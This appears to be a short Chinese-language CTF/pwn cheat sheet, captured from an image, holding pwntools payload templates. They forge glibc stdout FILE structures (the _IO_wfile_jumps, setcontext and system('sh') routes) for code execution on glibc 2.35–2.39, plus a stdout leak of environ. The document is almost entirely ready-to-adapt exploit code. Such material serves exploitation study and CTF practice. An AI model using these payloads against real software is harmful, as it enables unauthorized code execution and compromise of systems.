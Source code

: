 ```python
pay = p64(0xFBAD1800) + p64(0) * 3 + p64(environ) + p64(environ) * 2 # Length = lake_addr_ptr + len




```

‍

‍

## 打 stdout 高版本 通杀1

‍

glibc 2.39

‍

```python
libc.address = libc_base

fake_IO_addr = libc.sym['_IO_2_1_stdout_']



pay = flat({
    0x00: 0,
    0x18: libc.sym['setcontext'] + 61,
    0x20: fake_IO_addr, # 0x20 > 0x18
    0x68: 0,                # rdi  #read fd
    0x70: fake_IO_addr,     # rsi  #read buf
    0x88: fake_IO_addr,     # rdx  #read size
    0xa0: fake_IO_addr,
    0xa8: libc.sym['read'], # RCE2 ogg
    0xd8: libc.sym['_IO_wfile_jumps'] + 0x30 - 0x20,
    0xe0: fake_IO_addr,
    },filler=b'\x00')
```

‍

‍

‍

‍

## stdout 2

glibc 2.39, glibc 2.36 2.35 基本都能通

```python
fake_IO_addr = libc.sym['_IO_2_1_stdout_']
pay = flat({
    0x00: '  sh;',
    0x18: libc.sym['system'],
    0x20: fake_IO_addr, # 0x20 > 0x18
    0x68: 0,                # rdi  #read fd
    0x70: fake_IO_addr,     # rsi  #read buf
    0x88: fake_IO_addr + 0x8,     # rdx  #read size
    0xa0: fake_IO_addr,
    0xa8: libc.sym['read'], # RCE2 ogg
    0xd8: libc.sym['_IO_wfile_jumps'] + 0x30 - 0x20,
    0xe0: fake_IO_addr,
    },filler=b'\x00')
```
